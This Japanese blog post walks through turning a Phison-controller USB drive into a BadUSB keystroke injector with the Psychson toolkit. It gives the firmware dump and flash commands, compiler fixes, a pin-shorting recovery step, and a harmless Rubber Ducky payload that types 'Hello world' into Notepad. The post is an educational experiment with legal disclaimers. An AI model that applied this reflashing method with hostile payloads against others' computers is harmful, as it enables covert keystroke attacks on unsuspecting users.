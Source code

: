 ```yaml
---
title: "Badusb"
date: 2024-04-14T13:53:47+09:00
draft: false
---
```


BadUSB をファームウェア書き換えでやってみる.

## はじめに

- 本ポストの実験を実際に試して何か被害があっても筆者は責任をもてません
- 本ポストは BadUSB の促進を目的にしていません
- 本ポストの内容を自分の環境以外で行うことは罪に問われる可能性があります
- 思い出しながら書いてるので抜けがある場合があります

## モチベーション

- 昔に参加したセキュリティキャンプで BadUSB を作る講座があった
- EasyUSB を使っていたのである意味やりやすかった
- 実際に使われている USB でもできないか実験したい

## 環境

- [Psychson](https://github.com/brandonlw/Psychson)
- Toshiba TC58TEG7T2JTA00
  - Phison 2251-03 (2303)
- 以下ブログを参考にしている
  - [Psychsonを使用したBadUSBの作成方法](https://kikuzou.hateblo.jp/entry/2014/11/21/143115)

## 手順

- SDCC をインストールする
  - 最新版をインストールする場合は Psychson のビルドに失敗するので，コードを書きかえる必要がある
- Psychson を展開する
  - DriveCom, EmbededPayload, Injector を Visual Studio でビルド(Build Solution)する
- バーナーイメージをダウンロード
  - Phison Electronics - USBDev.ru からバーナーイメージをダウンロードする
  - 今回は BN03V104M.BIN を使用
- ファームウェアをダンプ
  - ```tools\DriveCom.exe /drive=E /action=SetBootMode```
  - ```tools\DriveCom.exe /drive=E /action=SendExecutable /burner=BN03V104M.BIN```
  - ```tools\DriveCom.exe /drive=E /action=DumpFirmware /burner=BN03V104M.BIN /firmware=TC58TEG7T2JTA00.bin```
- カスタムファームウェアをビルド
  - ```build.bat```
  - SDCC の最新版をダウンロードした場合は以下を修正する
  - 割り込みハンドラ(```__interrupt XXX```) を ```__interrupt(XXX)``` に直す．つまり割り込み番号とレジスタバンク番号を括弧で囲む
  - 引数無しの関数で ```void``` が省略されているので追加する
- ペイロード作成
  - [USB-Rubber-Ducky](https://github.com/midnitesnake/usb-rubber-ducky) を使う
  - ```java -jar encoder.jar -i keys.txt -o inject.bin```
  - ```tools\EmbedPayload.exe inject.bin hid.bin```
  - key.txt の内容は以下

``` txt
DELAY 3000
GUI r
DELAY 500
STRING notepad
DELAY 500
ENTER
DELAY 750
STRING Hello world
ENTER
```

- 書き込み
  - ```tools\DriveCom.exe /drive=E /action=SetBootMode```
  - ```tools\DriveCom.exe /drive=E /action=SendExecutable /burner=BN03V104M.BIN```
  - ```tools\DriveCom.exe /drive=E /action=SendFirmware /burner=BN03V104M.BIN /firmware=hid.bin```

- その他
  - ファームウェアの書き込みに失敗した場合は手動でブートモードに直す必要がある
    - コントローラの 2-3 ピンをショートしながら USB メモリを差す
    - ディレクトリからは見えないがドライブレターが割り当てられ，コマンドが通るようになる
